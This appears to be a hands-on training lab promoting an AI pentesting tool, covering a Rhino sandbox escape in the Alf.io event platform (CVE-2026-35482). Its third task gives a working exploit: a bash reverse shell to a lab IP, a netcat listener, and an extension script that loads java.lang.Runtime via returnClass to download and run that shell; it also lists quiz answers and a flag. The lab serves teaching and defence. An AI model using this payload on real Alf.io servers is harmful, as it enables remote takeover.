







# NoScope: Finding RCE

NoScope found an Alf.io RCE zero-day (CVE-2026-35482). Exploit it manually and watch AI solve it.

## Task 1. Introduction

**[Alf.io](http://alf.io/)** is an open-source, Java/Spring Boot event management platform used by conference organizers, sports clubs, and ticketing services worldwide. It ships with an extension system that lets administrators run custom JavaScript scripts in response to platform events, like ticket assignments and invoice generation.

To isolate those scripts from the underlying JVM, Alf.io uses a JavaScript sandbox backed by Mozilla Rhino. Scripts are validated against a blocklist before execution, where patterns like `java.lang.Runtime` and reflection keywords are rejected. The assumption: a script that can't name a dangerous class can't reach one.

**CVE-2026-35482 breaks that assumption.** It was discovered autonomously by NoScope. NoScope conducted a full automated pentest against the target, identified the unusual `returnClass` binding, confirmed it was exploitable end-to-end, and generated a validated finding, all without ever looking at the code. No static analysis or pentesting tool had caught it before.

Alf.io injects a variable called `returnClass` into every script's scope, a raw Java `Class<T>` object intended as a convenience for scripts that need to declare their return type. Because `Class<T>` exposes `Class.forName()`, an attacker can load any JVM class by passing its name as a string argument, which the blocklist never inspects. From there, Java reflection gives full access to `Runtime.exec()` and arbitrary OS command execution.

NoScope responsibly disclosed the vulnerability to the Alf.io maintainers and coordinated the CVE assignment before publishing.

### Learning Objectives

- Configure NoScope and run a full automated pentest against a live target
- Confirm the target is running a vulnerable version of Alf.io
- Understand how NoScope autonomously identified and validated [CVE-2026-35482](https://nvd.nist.gov/vuln/detail/CVE-2026-35482)
- Craft a sandbox-escape payload using the `returnClass` binding
- Register and trigger the payload through the Extensions API
- Upgrade to a reverse shell

### Prerequisites

- Linux CLI
- Basic familiarity with JavaScript

> NoScope runs on frontier models and no customer data is used to train our AI. [Learn more](https://tryhackme.com/resources/blog/user-data-policy-communication).

### Questions

I am ready to start!

> No answer needed

## Task 2. Vulnerability Hunting with NoScope

AI has made attackers significantly faster. The time from vulnerability disclosure to active exploitation has collapsed from years, to months, to days, to now sometimes hours. At the same time, engineering teams are shipping code multiple times a day, constantly expanding the attack surface.

Security testing hasn't kept up. A quarterly or yearly pentest made sense when software shipped quarterly. It doesn't anymore, and that gap is what NoScope addresses.

### What Is NoScope?

[NoScope](https://www.noscope.com/) is an AI-based automated pentesting platform. It deploys specialized agents that map an application's attack surface, build an attack graph, generate targeted payloads, and confirm exploitability end-to-end before surfacing anything as a finding. Nothing gets flagged unless it's been proven.



### How Does NoScope Work?



### Try It Out



Start the machine by clicking the **Start Lab Machine** button below, then click **Open in NoScope** once the VM has loaded, and test `10.49.190.52`. Fill in a few details about the application, fire a pentest, and watch the agent work through it in real time. You'll see the logs, the reasoning, and exactly how CVE-2026-35482 was found autonomously.

> For a full technical write-up of the vulnerability, read the [NoScope advisory.](https://www.noscope.com/blog/cve-2026-35482-noscope-alf-rce)

> NoScope is used by some of the top companies in the world and has found critical vulnerabilities in systems used by government, aerospace, military, and SaaS organizations. If you'd like to get a full demo or are simply curious, reach out and we'll set you up with a free trial. [Contact us.](https://www.noscope.com/contact)

### Questions

What sandboxing engine did NoScope identify as the one in use?

> Mozilla Rhino

What was the flag value NoScope retrieved out of the flag.txt file during its engagement?

> THM-{ALF_CV3_PWN}

## Task 3. Weaponizing the CVE



You have identified that the target is running **Alf.io 2.0-M5-2509-1**, a version vulnerable to CVE-2026-35482. You have also obtained valid administrator credentials for the admin panel and noticed an event has already been set up.

Your objective is to weaponize the vulnerability to achieve a reverse shell on the target machine.

### Getting a Reverse Shell

**Step 1: Reverse shell preparation**

Start the AttackBox by clicking the **Start AttackBox** button either in Task 2 or at the top of the page. Then, on the AttackBox, open a terminal and create rev.sh:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.49.70.253/4444 0>&1 &
```

Serve it over HTTP:

```bash
python -m http.server 80
```

In a different terminal, start a netcat listener:

```bash
nc -lvnp 4444
```

**Step 2: Build the reverse shell payload**

The exploit registers a malicious extension script that uses `returnClass.forName()` to load `java.lang.Runtime` by name, bypassing the sandbox blocklist entirely.

`Runtime.exec(String)` does not expand shell metacharacters, so we will download our reverse shell script, change permissions, and run it.

```javascript
function getScriptMetadata() {
	return {
		id: 'rce-validate',
		displayName: 'RCE Validate',
		version: 0,
		async: false,
		events: ['EVENT_STATUS_CHANGE']
	};
}

function executeScript(scriptEvent) {
	var rtClass = returnClass.forName('java.lang.Runtime');
	var strClass = returnClass.forName('java.lang.String');
	var runtime = rtClass.getMethod('getRuntime').invoke(null);
	var proc = rtClass.getMethod('exec', strClass).invoke(runtime, 'wget http://10.49.70.253/rev.sh -O /home/alfio/rev.sh');
	proc = rtClass.getMethod('exec', strClass).invoke(runtime, 'chmod 777 /home/alfio/rev.sh');
	proc = rtClass.getMethod('exec', strClass).invoke(runtime, '/home/alfio/rev.sh');
	var bytes = proc.getInputStream().readAllBytes();
	

	var output = '';
	for (var i = 0; i < bytes.length; i++) {
		output += String.fromCharCode(bytes[i] & 0xFF);
	}

	console.log(output);
	return { invoiceNumber: output };
}
```

**Step 3: Register the extension**

Log into the admin panel at `http://10.49.190.52/admin` and navigate to **Extension → add new**.



Add a path at the top (e.g. System/rev), paste your payload, and save the extension.

**Step 4: Trigger the extension**

The payload listens for the `EVENT_STATUS_CHANGE` event. This means that every time an event is published or hidden, your extension will trigger. Navigate to **Events**, then click **Load expired events** to access the **TryHackMe** event that has been set up, and click the **Publish now** button. This fires the extension immediately.



Watch your listener — the reverse shell should connect within a few seconds.

If you make any mistakes, you can trigger the extension again by hiding the event. To do this, navigate to **Logistic info and description**, then click **Edit**, modify the **Event Date** to a date in the future, click **Save**, and select **Actions** → **hide from list**.



### Questions

On what event is the exploit payload triggered?

> EVENT_STATUS_CHANGE

## Task 4. Conclusion

In this room you followed the full attack chain from vulnerability identification to shell access on a real target. You understood the sandbox, broke out of it, and got the flag.

Along the way you also got hands-on with a new way of thinking about security testing. You saw how NoScope approaches a target autonomously, how it maps attack surface, validates findings, and surfaces confirmed vulnerabilities. You also set up triggers, meaning from here NoScope can retest automatically on every deploy, every CVE drop, every surface change. That's how continuous pentesting works in practice, and you just configured it.

You now know how to:

- Identify a Java sandbox escape and understand why the blocklist failed
- Craft a `returnClass` payload and chain it to `Runtime.exec()`
- Register and trigger a malicious extension through the Extensions API
- Upgrade to a reverse shell on a real target
- Run NoScope autonomously against a live application
- Set up continuous triggers so security keeps pace with development

> Enjoyed the room? Share your experience on X and LinkedIn and tag us. Want to see what NoScope finds on your stack? [Book a meeting](https://noscope.com/contact) with us for a free trial.

### Questions

Done!

> No answer needed

---

11:44 AM, 28/11/2026 * Thv0n9K1nG